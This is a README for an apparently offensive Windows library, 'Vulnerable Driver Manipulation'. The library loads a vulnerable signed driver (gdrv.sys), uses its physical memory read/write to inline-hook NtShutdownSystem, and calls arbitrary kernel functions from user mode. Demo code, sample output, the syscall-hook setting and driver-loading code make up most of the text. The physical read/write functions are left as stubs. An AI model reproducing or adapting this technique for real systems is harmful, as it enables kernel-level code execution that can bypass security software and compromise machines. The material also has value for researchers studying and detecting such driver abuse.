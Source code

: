 <div align="center">
    <div>
        <img src="https://githacks.org/xerox/vdm/-/raw/467698a1d756a21f5bc4da942a36f980fc895cc6/img/7ipSZRN.png"/>
    </div>
    <img src="https://githacks.org/xerox/vdm/-/raw/467698a1d756a21f5bc4da942a36f980fc895cc6/img/Windows%2010-supported-green.svg"/>
    <img src="https://githacks.org/xerox/vdm/-/raw/467698a1d756a21f5bc4da942a36f980fc895cc6/img/Windows%207-supported-green.svg"/>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys. This is basiclly what physmeme was about but that project is not truly "physical read and write" 
whereas this project is. This project can be used more broadly then physmeme.

# Example

In this example VDM syscalls into an inline hook placed on `ntoskrnl.NtShutdownSystem` to call memcpy exported from ntoskrnl.exe. The original bytes are restored
directly after the syscall returns.

#### Demo Code
```cpp
vdm::vdm_ctx vdm;
const auto ntoskrnl_base =
reinterpret_cast<void*>(
    util::get_module_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
    util::get_kernel_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);
std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0x100, drv_key -> frAQBc8Wsa1xVPfv
[+] NtShutdownSystem physical address -> 0x0000000002D0B1A0
[+] NtShutdownSystem page offset -> 0x1a0
[+] ntoskrnl base address -> 0xFFFFF80456400000
[+] ntoskrnl memcpy address -> 0xFFFFF804565D5A80
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. You can also change which syscall you want to 
hook by changing this variable inside of `vdm_ctx/vdm_ctx.h`.

```cpp
// change this to whatever you want :^)
constexpr std::pair<const char*, const char*> syscall_hook = { "NtShutdownSystem`", "ntdll.dll" };
```

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```